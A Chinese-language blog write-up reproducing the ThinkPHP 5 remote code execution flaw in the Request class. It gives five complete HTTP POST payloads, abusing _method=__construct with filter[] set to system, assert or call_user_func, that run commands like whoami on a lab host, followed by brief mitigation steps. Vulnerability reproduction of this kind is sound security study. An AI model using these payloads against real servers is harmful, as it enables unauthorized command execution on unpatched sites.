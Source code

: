 ```yaml
---
title: ThinkPHP5 核心类 Request 远程代码漏洞复现+Poc
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
author: Chace
date: 2020-07-11 18:47:35
---
```

## 漏洞介绍

2019年1月11日，ThinkPHP团队发布了一个[补丁更新](https://blog.thinkphp.cn/910675)，修复了一处由于不安全的动态函数调用导致的远程代码执行漏洞。

ThinkPHP官方发布新版本5.0.24，在1月14日和15日又接连发布两个更新，这三次更新都修复了一个安全问题，该问题可能导致远程代码执行 ，这是ThinkPHP近期的第二个高危漏洞，两个漏洞均是无需登录即可远程触发，危害极大。

之前写过一篇文章《[ThinkPHP-5-代码执行漏洞复现-POC](https://chaceshadow.github.io/2020/06/09/ThinkPHP-5-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-POC/#method%E4%BB%BB%E6%84%8F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95%E5%AF%BC%E8%87%B4rce)》里面有提过一次，这篇文章主要对其不同版本下进行详细的复现。

<!--more-->

## 影响版本

启明星辰ADLab安全研究员对ThinkPHP的多个版本进行源码分析和验证后，确认具体受影响的版本为ThinkPHP5.0-5.0.23完整版。



## 漏洞复现

本地环境采用ThinkPHP 5.0.10和5.0.22完整版+PHP7.0.9+Apache2.4.39进行复现。安装环境后执行POC即可执行系统命令

### 版本 5.0.0-5.0.12
> Payload：

```http
POST /public/index.php?s=index/index/index HTTP/1.1
Host: 192.168.1.236
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

s=whoami&_method=__construct&filter[]=system
```

POC执行结果如下图：   
   ![](1.png)

   ![](2.png)



### 版本 5.0.12-5.0.23

在5.0.12之后的版本中，在`thinkphp/library/think/App.php的module`方法中增加了设置filter过滤属性的代码

   ![](3.png)

开启debug调试模式，打开配置文件`config.php`

   ![](4.png)

修改为

   ![](5.png)



  >Payload 1

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
  ```

POC执行结果如下图：   

   ![](6.png)
   ![](7.png)

  >Payload 2

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=think\__include_file&server[]=phpinfo&get[]=../runtime/log/202007/08.log&x=phpinfo();
  ```

POC执行结果如下图：   

   ![](8.png)
   ![](9.png)

  >Payload 3

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=assert&server[]=phpinfo&get[]=phpinfo()
  ```

POC执行结果如下图：   

   ![](10.png)


  >Payload 4

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
  ```

POC执行结果如下图：   

   ![](11.png)

### 版本 5.1.10（PHP7.3.4+Apache2.4.39）

5.1和5.2两个版本现在用的很少，并且针对于这两个版本有点鸡肋，需要index.php文件中跳过报错提示。 语句：error_reporting(0);

需设置 `error_reporting(0);`

>  Payload：

```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

c=system&f=whoami&_method=filter
```

一开始执行结果如下图：

![](12.png)

找到RuleGroup.php 新增一行代码error_reporting(0);跳过报错

![](13.png)

然后查看结果

![](14.png)

## 漏洞防御

1. 线上环境建议关闭debug模式

2. 升级到ThinkPHP 5.0.24

3. 手动增加过滤，在`thinkphp/library/think/Request.php`添加如下代码：

   ![](15.png)
   
   

## 参考链接

[ThinkPHP5 远程代码执行漏洞分析](https://seaii-blog.com/index.php/2019/01/14/88.html)

[ThinkPHP 5.0.0~5.0.23 RCE 漏洞分析](https://xz.aliyun.com/t/3845#toc-0)

[ThinkPHP5 核心类 Request 远程代码漏洞分析](https://paper.seebug.org/787/)

[ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)